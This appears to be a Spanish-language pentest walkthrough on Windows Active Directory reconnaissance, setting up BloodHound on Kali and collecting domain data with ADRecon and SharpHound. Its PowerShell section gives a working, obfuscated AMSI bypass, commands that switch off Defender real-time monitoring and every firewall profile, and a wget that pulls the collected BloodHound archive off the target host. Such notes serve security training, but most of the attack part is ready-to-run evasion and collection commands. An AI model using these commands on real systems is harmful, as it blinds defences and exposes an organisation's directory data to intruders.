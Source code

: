 # Reconocimiento en Windows

## Requisitos: Instalar y levantar BloodHound en Kali

Instalar siguiendo este enlace
[1]: https://www.youtube.com/watch?v=gra9rU1-qY8

Inicializar los servicios
```
sudo neo4j console
http://127.0.0.1:7474/browser/
sudo bloodhound
```

## En Powershell

Desactivar AMSI, para evitar que Windows Defender te bloquee

```
powershell -ep bypass

sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

Set-MpPreference -DisableRealTimeMonitoring $true
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
```

Gathering con ADRecon
```
. .\AdRecon.ps1
```
![image](https://user-images.githubusercontent.com/50930193/126189223-8ac244af-1625-4499-bd10-b70e9c65f0b7.png)


Gathering con SharpHound y BloodHound
```
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Verbose
```
![image](https://user-images.githubusercontent.com/50930193/126214533-932a5fed-cb9d-42c8-97de-7a9bc403182c.png)

Abrir un listener en DOS para copiar la información desde Kali
![image](https://user-images.githubusercontent.com/50930193/126214344-8fb1b36e-40d0-45df-a771-6afe71bd84b2.png)

Descargar desde Kali el archivo generado
```
wget http://192.168.153.200:8000/20210719121509_BloodHound.zip
```

Desde bloodhound importar la información descargando 
![image](https://user-images.githubusercontent.com/50930193/126216343-55dda0e8-80aa-4216-831f-dab71ce3df9e.png)

![image](https://user-images.githubusercontent.com/50930193/126216805-0de9df1e-c6e2-4c3e-978d-43f2d531018d.png)

Analizar información diversa

![image](https://user-images.githubusercontent.com/50930193/126218788-6e27ca99-060d-481c-9da8-14e41fd17763.png)

![image](https://user-images.githubusercontent.com/50930193/126218962-bc290f3d-e561-4c31-bd24-4f76289f27b1.png)

![image](https://user-images.githubusercontent.com/50930193/126219304-293b176d-53d9-4600-be8c-20d37838e07f.png)




